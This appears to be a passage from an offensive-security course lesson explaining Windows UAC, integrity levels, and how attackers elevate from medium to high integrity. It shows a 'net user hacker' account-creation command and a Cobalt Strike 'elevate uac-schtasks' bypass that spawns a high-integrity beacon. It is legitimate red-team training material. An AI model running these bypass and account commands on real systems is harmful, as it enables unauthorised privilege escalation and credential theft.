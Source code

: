 User Account Control (UAC) is a technology that exists in Windows which forces applications to prompt for consent when requesting an administrative access token.  Bob is a local administrator on Workstation 2 - but if we open a Command Prompt and attempt to add a new local user, we get an access denied.  This instance of cmd.exe is running in "medium integrity".
```
C:\Users\bfarmer>net user hacker Passw0rd! /add
System error 5 has occurred.

Access is denied.

C:\Users\bfarmer>whoami /groups

Mandatory Label\Medium Mandatory Level
```
  

Instead, what we must do is right-click and select "Run as administrator", which will cause a UAC prompt to appear.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/306/c51/3e3/prompt.png)

  

Only after clicking _Yes_ will the Command Prompt have sufficient privileges to make system configuration changes, as it will now be running in "high integrity".
```
C:\Windows\system32>whoami /groups

Mandatory Label\High Mandatory Level
```
  

A UAC "bypass" is a technique that allows a medium integrity process to elevate itself or spawn a new process in high integrity, without prompting the user for consent.  Being in high integrity is important for attackers because it's required for various post-exploitation actions such as dumping credentials.

Beacon has a few built-in UAC bypasses and a few more which are provided via the [Elevate Kit](https://github.com/cobalt-strike/ElevateKit) (this has already been pre-loaded into Cobalt Strike for your convenience).  These are exposed via the `elevate` command.

  
```
beacon> elevate uac-schtasks tcp-local
[*] Tasked Beacon to run windows/beacon_bind_tcp (127.0.0.1:4444) in a high integrity context
[+] established link to child beacon: 10.10.123.102
```
  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/a23/8b1/74f/uac-bypass.png)